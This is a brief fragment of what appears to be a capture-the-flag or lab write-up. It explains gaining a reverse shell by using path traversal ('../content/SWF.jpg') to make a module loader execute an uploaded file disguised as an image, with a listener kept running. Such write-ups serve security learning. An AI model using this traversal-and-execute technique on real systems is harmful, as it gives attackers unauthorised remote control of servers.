
It tells to execute file from modules.
We can use the following to load our file.
(Since modules and content are generally in same directory)
../content/SWF.jpg
Also, keep listner running.
Thus, we have a reverse shell.